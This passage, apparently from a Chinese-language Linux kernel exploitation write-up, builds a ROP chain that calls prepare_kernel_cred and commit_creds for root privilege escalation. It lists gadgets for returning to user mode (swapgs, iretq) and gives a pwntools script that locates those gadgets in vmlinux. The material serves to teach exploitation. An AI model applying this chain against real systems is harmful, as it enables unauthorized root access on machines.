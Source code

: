 ```python
mov rdi ,rax;jmp rdx;
```

因此还需要控制一下 rdx

```python
pop rdx ;ret;
```

所以有如下rop链，先通过调用 prepare_kernel_cred 函数得到 rax ，之后控制 rdx 为 commit_creds函数地址， 最后将 rax 给到 rdi 控制 commit_creds 参数最后调用之

```python
pop_rdi_ret
0
prepare_kernel_cred
pop_rdx_ret
commit_creds
mov_rdi_rax_jmp_rdx
```

之后就是恢复现场的操作，因此至少需要如下gadget

```python
pop rdi ;ret;
mov rdi ,rax;jmp rdx;
pop rdx ;ret;
swapgs; popfq; ret;
iretq; ret;
```

个人比较习惯 python ，通过 python 找一下 gadget 和关键函数

```python
from pwn import *

context.update( os = 'linux', arch = 'amd64',timeout = 1)
elf = ELF('./vmlinux')

offset = 0xffffffff81000000

commit_creds = elf.sym['commit_creds'] - offset
prepare_kernel_cred = elf.sym['prepare_kernel_cred'] - offset
pop_rdi_ret = elf.search(asm("pop rdi;ret")).next()- offset
pop_rdx_ret = elf.search(asm("pop rdx;ret")).next()- offset
pop_rcx_ret = elf.search(asm("pop rcx;ret")).next()- offset

mov_rdi_rax_jmp_rcx = elf.search(asm("mov rdi, rax; jmp rcx;")).next()- offset
mov_rdi_rax_jmp_rdx = elf.search(asm("mov rdi, rax; jmp rdx;")).next()- offset

swapgs_popfq_ret  = elf.search(asm("swapgs; popfq; ret")).next()- offset
iretq_ret = elf.search(asm("iretq; ret;")).next()- offset

print("size_t commit_creds = " +  hex(commit_creds) + ";")
print("size_t prepare_kernel_cred = " +   hex(prepare_kernel_cred) + ";")
print("size_t pop_rdi_ret = " +   hex(pop_rdi_ret) + ";")
print( "size_t pop_rdx_ret = " +  hex(pop_rdx_ret) + ";")
print("size_t pop_rcx_ret = " +   hex(pop_rcx_ret) + ";")
print("size_t mov_rdi_rax_jmp_rcx = " +   hex(mov_rdi_rax_jmp_rcx) + ";")
print("size_t mov_rdi_rax_jmp_rdx = " +   hex(mov_rdi_rax_jmp_rdx) + ";")

print( "size_t swapgs_popfq_ret = " +  hex(swapgs_popfq_ret) + ";")
print("size_t iretq_ret = " +   hex(iretq_ret) + ";")
```
